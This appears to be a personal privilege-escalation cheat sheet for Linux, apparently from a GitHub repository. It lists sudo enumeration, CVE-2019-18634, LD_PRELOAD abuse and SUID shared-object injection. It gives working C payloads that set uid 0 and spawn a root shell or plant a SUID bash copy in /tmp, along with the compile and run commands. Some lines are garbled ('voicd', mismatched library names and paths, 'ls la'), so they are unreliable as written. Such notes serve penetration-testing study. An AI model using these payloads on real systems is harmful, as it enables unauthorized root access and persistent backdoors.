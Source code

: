 7. Sudo 
    1.  `sudo -l` 
        - Looking for (root) nopasswd
        - GTFO Bins 
    2. Intended functionality 
        - What you can sudo to, and lookup privesc with that. 
        - wget or apache2 to read files, etc. 
    3. sudo su CVE-2019-18634
        - Buffer overflow on sudo 
        - Check for character masking on `sudo su`
    4. SUDO_KILLER

7. LDPreload  
    1. Allows for the Linking of malicious libraries before executing program. 
    1. Identify - `sudo -l`
    2. See `env_keep+=LD_PRELOAD` 
    3. ![](image-kmcuxgdl.png)
    4. Load our library before all other libraries 
    5. write malicious library 
    6. Export with so 
    7. `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    8. Run as sudo for any program you can run as sudo. 
    8. `sudo LD_PRELOAD=/home/usr/shell.so apache2` 

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~


8. SUID
    1. `find / -perm -u=s -type f 2>/dev/null`

9. Check for Shared Object Injection
    1. `find / -type f -perm -04000 -ls 2>/dev/null`
    2. `ls la /item/soitem` to see permissions looking for suid
    3. `strace soitem 2>&1 | grep -i -E "open|access|no such file"` try to see what's executing
    4. Write malicious c from below and compile 
    5. `gcc -shared -fPIC -o /home/user.config/libcacl.so /home/user/libcalc.c`

~~~c
#include <stdio.h>
#include <stdlib.h>

static voicd inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
~~~
